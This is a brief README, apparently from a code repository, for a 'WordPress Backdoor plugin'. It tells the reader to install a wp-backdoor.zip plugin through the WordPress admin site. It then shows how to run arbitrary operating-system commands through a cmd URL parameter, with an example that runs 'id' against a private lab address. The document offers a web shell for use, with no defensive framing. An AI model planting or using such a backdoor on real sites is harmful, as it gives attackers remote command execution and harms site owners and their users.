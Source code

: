 # Wordpress Backdoor plugin #

Install the **wp-backdoor.zip** on the wp admin site.

URL: _http://wp/wp-content/plugins/wp-backdoor/wp-backdoor.php?cmd=COMMAND_

e.g.: _http://10.11.1.251/wp/wp-content/plugins/wp-backdoor/wp-backdoor.php?cmd=id_

#tis #havefun #sander
